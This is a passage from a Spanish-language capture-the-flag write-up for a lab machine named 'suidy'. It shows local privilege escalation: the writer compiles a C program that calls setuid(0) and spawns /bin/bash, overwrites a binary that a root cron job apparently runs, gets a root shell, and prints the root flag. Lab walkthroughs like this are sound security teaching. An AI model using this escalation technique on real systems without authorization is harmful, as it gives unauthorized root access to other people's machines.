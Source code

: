 ```
```

Vemos que se esta ejecutando un `crontab` como el usuario `root` en este caso con el script llamado `timer.sh` el cual podemos creer que puede estar ejecutando el binario llamado `suidyyyyy` el cual podemos modificar, por lo que vamos a realizar lo siguiente a ver si funciona.

Vamos a crear un binario y compilarlo en la maquina victima.

> suid.c

```c
#include <stdlib.h>
#include <unistd.h>

int main()
{
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0;
}
```

Ahora lo compilamos de la siguiente forma en la `home` de `suidy`.

```shell
exit # Para volver al usuario de "theuser"
cd /tmp
gcc /tmp/suid.c -o suidyyyyy
cp suidyyyyy /home/suidy/suidyyyyy
```

Ahora tendremos que esperar un poco, una vez esperado un poco ejecutaremos lo siguiente:

```shell
/home/suidy/suidyyyyy
```

Info:

```
root@suidy:/home/suidy# whoami
root
```

Y con esto veremos que seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
HMV0000EVE
```

